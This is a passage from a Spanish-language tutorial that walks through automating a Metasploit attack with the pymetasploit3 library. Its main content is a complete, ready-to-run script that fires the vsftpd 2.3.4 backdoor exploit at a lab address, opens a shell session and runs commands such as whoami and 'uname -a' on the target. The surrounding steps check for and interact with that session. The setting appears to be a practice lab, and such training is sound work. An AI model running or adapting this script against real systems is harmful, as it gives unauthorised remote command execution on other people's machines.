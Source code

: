 
### ⏳ Paso 8: Verificar si hay una sesión abierta

```python
import time
time.sleep(5)  # Esperamos un poco para que se abra la sesión

if client.sessions.list:
    print("[+] Sesión activa:")
    for sid, session in client.sessions.list.items():
        print(f"ID: {sid}, Tipo: {session['type']}, Plataforma: {session['platform']}")
else:
    print("[-] No se abrió ninguna sesión.")
```

---

### 🎉 Paso 9: Interactuar con la sesión (opcional)

```python
sid = list(client.sessions.list.keys())[0]
session = client.sessions.session(sid)

# Ejecutar un comando dentro de la sesión
output = session.run_with_output('whoami')
print("Salida del comando 'whoami':")
print(output)
```

---

#### 📜 Script completo de ejemplo

```python
from pymetasploit3.msfrpc import MsfRpcClient
import time

# Conexión
client = MsfRpcClient('123')

# Elegir exploit y payload
exploit = client.modules.use('exploit', 'unix/ftp/vsftpd_234_backdoor')
exploit['RHOSTS'] = '192.168.56.102'
exploit['RPORT'] = 21

payload = client.modules.use('payload', 'cmd/unix/interact')

# Ejecutar
print("[*] Lanzando exploit...")
exploit.execute(payload=payload)

# Esperar y revisar sesiones
time.sleep(5)

if client.sessions.list:
    sid = list(client.sessions.list.keys())[0]
    session = client.sessions.session(sid)
    print("[+] Sesión abierta. Ejecutando comando...")
    print(session.run_with_output('uname -a'))
else:
    print("[-] No se obtuvo sesión.")
```

---